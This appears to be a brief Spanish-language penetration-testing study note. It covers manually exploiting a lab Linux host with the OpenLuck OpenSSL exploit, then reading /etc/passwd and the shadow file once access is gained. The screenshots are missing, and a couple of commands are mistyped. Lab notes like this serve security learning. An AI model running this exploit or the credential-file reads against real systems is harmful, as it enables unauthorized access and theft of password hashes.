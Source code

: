 # 4 - Manual Explotation

{% embed url="https://github.com/heltonWernik/OpenLuck" %}

![](../../../.gitbook/assets/imagen%20%28364%29.png)

Abajo de eso te dice que usar contra cada objetivo de linux por ejemplo.

![](../../../.gitbook/assets/imagen%20%28360%29.png)

La ennumeration juega un monton aqui.

```text
root@kali: // ./open 0x6xb 192.168.57.134 -c 40
```

![](../../../.gitbook/assets/imagen%20%28368%29.png)

Tenemos acceso:

```text
cat /etc/passwd
```

![](../../../.gitbook/assets/imagen%20%28363%29.png)

Scroleando al final vemos los usuarios custom y no los que vienen

```text
cat etc/shaddow
```

![](../../../.gitbook/assets/imagen%20%28362%29.png)

